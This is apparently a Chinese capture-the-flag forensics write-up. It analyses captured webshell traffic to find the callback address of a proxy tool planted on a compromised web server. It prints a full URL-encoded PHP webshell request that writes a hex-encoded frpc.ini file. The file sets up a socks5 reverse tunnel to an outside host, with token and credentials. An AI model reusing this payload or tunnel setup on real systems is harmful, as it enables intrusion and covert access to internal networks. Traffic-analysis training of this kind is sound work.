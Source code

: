 ![代理流量](./images/代理流量.png)

> 有一台Web应用服务器发现被攻击者获取了权限，并对内网做了扫描。请尝试分析攻击过程，并找到代理工具的回连地址及端口，提交地址端口，示意：10.10.10.10:8080，提交flag为flag{10.10.10.10:8080},flag格式flag{x}

知识点：`流量分析`、`webshell流量分析`



[附件下载](attachments/Misc/demo.txt)

343 号包上传 `frpc.ini` 文件

```http
POST /1.php HTTP/1.1
Host: 192.168.2.197:8081
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:22.0) Gecko/20130405 Firefox/22.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 1374
Connection: close

aaa=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%2228%22.%22f72%22%3Becho%20%40asenc(%24output)%3Becho%20%22f486%22.%2211f4%22%3B%7Dob_start()%3Btry%7B%24f%3Dbase64_decode(substr(%24_POST%5B%22j68071301598f%22%5D%2C2))%3B%24c%3D%24_POST%5B%22xa5d606e67883a%22%5D%3B%24c%3Dstr_replace(%22%5Cr%22%2C%22%22%2C%24c)%3B%24c%3Dstr_replace(%22%5Cn%22%2C%22%22%2C%24c)%3B%24buf%3D%22%22%3Bfor(%24i%3D0%3B%24i%3Cstrlen(%24c)%3B%24i%2B%3D2)%24buf.%3Durldecode(%22%25%22.substr(%24c%2C%24i%2C2))%3Becho(%40fwrite(fopen(%24f%2C%22a%22)%2C%24buf)%3F%221%22%3A%220%22)%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&j68071301598f=FBL3Zhci93d3cvaHRtbC9mcnBjLmluaQ%3D%3D&xa5d606e67883a=5B636F6D6D6F6E5D0A7365727665725F61646472203D203139322E3136382E3135372E3131310A7365727665725F706F7274203D20383838380A746F6B656E3D6659346533766372535941486A6A464B7A4B4B380A0A5B746573745F736F636B355D0A74797065203D207463700A72656D6F74655F706F7274203D383131310A706C7567696E203D20736F636B73350A706C7567696E5F75736572203D2050787059784642644E70370A706C7567696E5F706173737764203D2059454453756E70480A7573655F656E6372797074696F6E203D20747275650A7573655F636F6D7072657373696F6E203D20747275650A
```
